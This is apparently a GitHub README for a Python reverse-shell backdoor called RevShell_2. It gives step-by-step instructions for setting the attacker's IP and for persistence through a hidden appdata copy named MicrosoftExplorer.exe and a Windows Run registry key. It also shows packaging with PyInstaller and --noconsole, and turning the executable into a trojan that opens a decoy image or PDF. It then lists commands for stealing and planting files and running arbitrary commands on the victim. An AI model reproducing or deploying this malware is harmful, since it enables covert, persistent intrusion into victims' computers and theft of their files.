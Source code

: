 # RevShell_2
A reverse shell written in Python with Single client support

## Usage

The backdoor.py script is the backdoor. It can be used as it is, or can be converted to an executable using ```Pyinstaller```

Step 1 

Editing backdoor.py and listener.py
```
# These stataments are at the very ends of the files
my_backdoor = Backdoor("127.0.0.1", 4444)
# enter the hacker machine IP instead of 127.0.0.1 and a port of your choice instead of 4444
# this is the IP the backdoor will try to connect to

my_listener = Listener("127.0.0.1", 4444)
# enter the hacker machine IP instead of 127.0.0.1 and a port of your choice instead of 4444
# this is the IP on which the listener will listen

# Next we'll modify the persistence function
def persistence(self):
        location = os.environ["appdata"] + "\\MicrosoftExplorer.exe"
        # this will set the location of the .exe to a hidden appdata folder with MicrosoftExplorer.exe name
        # this will set the location of the executable to whatever path you want,  for whatever OS you want, please fill it carefully
        if not os.path.exists(location):
            shutil.copyfile(sys.executable, location)
            # shutil.copyfile(__file__, location)
            # if you do not have the executable and want python file copied
            subprocess.call('reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v update /t REG_SZ/d "' + location + '"', shell=True)
            # command for persistence windows. Modify for linux and MacOS
```
Step 2

Once the files have been edited for your machine's IP and target's OS, it can be converted to a executable using pyinstaller, or can be used as it is
```
pip3 install pyinstaller
pyinstaller --onefile --noconsole backdoor.py
# add the no console argument to make it better
```
The executable will be found in the dist folder

Now, the executable is ready for deployment.

## To convert executable to Trojan

Step 1

Edit backdoor_trojan.py
```
filename = "<Filename>"
temp_folder = sys._MEIPASS + "/"
file = temp_folder + filename
img = Image.open(file) 
# this is is the file you want to use is a image
img.show()
# os.system(path)
# uncomment the above if its not an image (like a pdf)
```
Step 2

Use pyinstaller
```
pip3 install pyinstaller
pyinstaller --add-data "<Full path of the image/pdf>:." --onefile --noconsole backdoor_trojan.py
```
The executable will be found in the dist folder

Now, the executable is ready for deployment.

## Usage

After the connection is accepted a special prompt will be shown ```#>```
In this prompt, any and all system commands will be executed and a few special commands are coded into it as well
```
download <filename> - downloads a file from the target computer
upload <filename> - uploads a file from hacker's computer to target computer
quit - closes the connection and exits the program
exit - closes the connection and exits the program
```
